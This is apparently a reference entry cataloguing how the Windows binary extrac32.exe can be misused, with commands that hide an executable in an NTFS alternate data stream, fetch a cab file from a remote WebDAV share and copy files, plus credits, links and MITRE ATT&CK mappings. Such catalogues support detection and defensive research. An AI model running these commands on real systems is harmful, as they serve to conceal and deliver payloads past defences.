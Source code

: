 ## Extrac32.exe

* Functions: Add ADS, Download, Copy

```
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe    

extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe    

extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt   

extrac32 /C c:\sourcefile.txt c:destFile.txt
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* egre55 - @egre55

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
* https://twitter.com/egre55/status/985994639202283520

Full path:
```
c:\windows\system32\extrac32.exe
c:\windows\sysWOW64\extrac32.exe
```

Notes:
For help menu
```
extract32 /? | more
```


 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)

